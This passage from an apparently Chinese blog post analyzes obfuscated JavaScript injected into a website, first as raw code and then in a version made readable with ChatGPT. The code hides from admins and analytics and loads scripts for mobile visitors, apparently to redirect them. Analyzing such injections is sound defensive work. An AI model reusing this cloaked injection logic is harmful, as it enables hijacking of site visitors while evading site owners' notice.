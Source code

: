 ``` js
              }
            }
          }
        }
      }
    }
    _0x56bd89 != '' &&
      !isPc() &&
      document.cookie.indexOf('admin_id') == -1 &&
        document.cookie.indexOf('adminlevels') == -1 &&
        vfed_update(_0x56bd89)
  }
}
let tsastr = document.documentElement.outerHTML,
  bdtjfg = tsastr.indexOf('hm.baidu.com') != -1,
  cnzfg = tsastr.indexOf('.cnzz.com') != -1,
  wolafg = tsastr.indexOf('.51.la') != -1
let mattoo = tsastr.indexOf('.matomo.org') != -1,
  aanaly = tsastr.indexOf('.google-analytics.com') != -1,
  ggmana = tsastr.indexOf('.googletagmanager.com') != -1,
  aplausix = tsastr.indexOf('.plausible.io') != -1
let statcct = tsastr.indexOf('.statcounter.com') != -1
bdtjfg || cnzfg || wolafg || mattoo || aanaly || ggmana || aplausix || statcct
  ? setTimeout(check_tiaozhuan, 2000)
  : check_tiaozhuan()

```

這時候就要再次交給 ChatGPT 大神，不需要什麼高深的 prompt，只要跟他說把它可讀性變好就行，就可以得到底下的結果：

``` js
// Function to load a JavaScript file dynamically and execute a callback once it's loaded
function loadJS(url, callback) {
  const script = document.createElement('script');
  const onLoadCallback = callback || function () {};
  script.type = 'text/javascript';
  script.onload = onLoadCallback;
  script.src = url;
  document.getElementsByTagName('head')[0].appendChild(script);
}

// Function to determine if the current device is a PC
function isPc() {
  try {
    const isWindows = navigator.platform === 'Win32' || navigator.platform === 'Windows';
    const isMac = ['Mac68K', 'MacPPC', 'Macintosh', 'MacIntel'].includes(navigator.platform);
    return isWindows || isMac;
  } catch (error) {
    return false;
  }
}

// Function to check if any of the provided keywords exist in the document's HTML
function checkKeywords(keywords) {
  const htmlContent = document.documentElement.innerHTML;
  for (const keyword of keywords) {
    if (htmlContent.includes(keyword)) {
      return true;
    }
  }
  return false;
}

// Function to fetch keyword data and update the page if keywords match
```